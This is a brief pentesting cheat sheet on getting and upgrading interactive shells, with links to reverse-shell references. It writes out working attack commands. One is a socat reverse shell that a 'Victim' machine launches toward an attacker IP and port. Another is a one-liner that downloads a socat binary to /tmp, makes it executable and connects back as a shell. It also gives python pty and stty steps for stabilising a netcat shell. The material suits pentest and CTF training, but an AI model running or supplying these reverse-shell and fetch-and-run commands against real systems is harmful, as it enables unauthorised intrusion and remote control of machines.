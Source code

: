 # TTY

## Cheatsheets
- https://netsec.ws/?p=337
- http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet
- https://blog.ropnop.com/upgrading-simple-shells-to-fully-interactive-ttys/
- https://forum.hackthebox.eu/discussion/142/obtaining-a-fully-interactive-shell

## web ttys
- https://github.com/maxmcd/webtty

## python
```
python -c 'import pty; pty.spawn("/bin/bash")'  
```

## socat
On Kali (listen):
```
socat file:`tty`,raw,echo=0 tcp-listen:4444  
```

On Victim (launch):
```
socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:10.0.3.4:4444  
```
```
wget -q https://github.com/andrew-d/static-binaries/raw/master/binaries/linux/x86_64/socat -O /tmp/socat; chmod +x /tmp/socat; /tmp/socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:10.0.3.4:4444
```

## netcat
Send `nc` to background
Check the term name and size on local machine with:
```
echo $TERM
stty -a
```
```
stty raw -echo  
```
`fg` to being `nc` back up
```
reset
export SHELL=bash
xterm
export TERM=xterm
stty rows 38 columns 116
```

Row and column values are found using `stty -a`.

> https://blog.ropnop.com/upgrading-simple-shells-to-fully-interactive-ttys/

